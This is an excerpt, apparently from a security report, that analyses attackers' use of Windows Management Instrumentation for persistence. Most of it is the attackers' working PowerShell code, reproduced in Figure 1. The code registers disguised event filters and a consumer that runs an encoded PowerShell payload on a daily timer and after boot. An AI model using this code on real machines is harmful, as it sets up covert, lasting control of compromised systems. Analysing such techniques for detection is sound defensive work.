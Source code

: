 #### Windows Management Instrumentation
In the first case, attackers create two WMI event filters and two WMI event consumers. The consumers are simply
command lines launching base64-encoded PowerShell commands that load a large PowerShell script stored in the
Windows registry. Figure 1 shows how the persistence is established.

```
Get-WmiObject CommandLineEventConsumer -Namespace root\subscription -filter "name='Syslog Consumer'" |
Remove-WmiObject;
```
```
$NLP35gh = Set-WmiInstance -Namespace "root\subscription" -Class 'CommandLineEventConsumer' -Arguments
@{name='Syslog
Consumer';CommandLineTemplate="$($Env:SystemRoot)\System32\WindowsPowerShell\v1.0\powershell.exe -
enc $HL39fjh";RunInteractively='false'};
```
```
Get-WmiObject __eventFilter -namespace root\subscription -filter "name='Log Adapter Filter'"| Remove- WmiObject
```
```
Get-WmiObject __FilterToConsumerBinding -Namespace root\subscription | Where-Object {$_.filter -match 'Log Adapter'} | Remove-WmiObject;
```
```
$IT825cd = "SELECT * FROM __instanceModificationEvent WHERE TargetInstance ISA 'Win32_LocalTime' AND
TargetInstance.Hour=15 AND TargetInstance.Minute=30 AND TargetInstance.Second=40";
```
```
$VQI79dcf = Set-WmiInstance -Class __EventFilter -Namespace root\subscription -Arguments @{name='Log
Adapter Filter';EventNameSpace='root\CimV2';QueryLanguage='WQL';Query=$IT825cd};
```
```
Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments
@{Filter=$VQI79dcf;Consumer=$NLP35gh};
```
```
Get-WmiObject __eventFilter -namespace root\subscription -filter "name='AD Bridge Filter'"| Remove-WmiObject;
```
```
Get-WmiObject __FilterToConsumerBinding -Namespace root\subscription | Where-Object {$_.filter -match 'AD
Bridge'} | Remove-WmiObject;
```
```
$IT825cd = "SELECT * FROM __instanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_Perf‐
FormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 300 AND TargetInstance.SystemUpTime
< 400";
```
```
$VQI79dcf = Set-WmiInstance -Class __EventFilter -Namespace root\subscription -Arguments @{name='ADBridge Filter';EventNameSpace='root\CimV2';QueryLanguage='WQL';Query=$IT825cd};
Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments
@{Filter=$VQI79dcf;Consumer=$NLP35gh};
```
#### Figure 1. Persistence using WMI

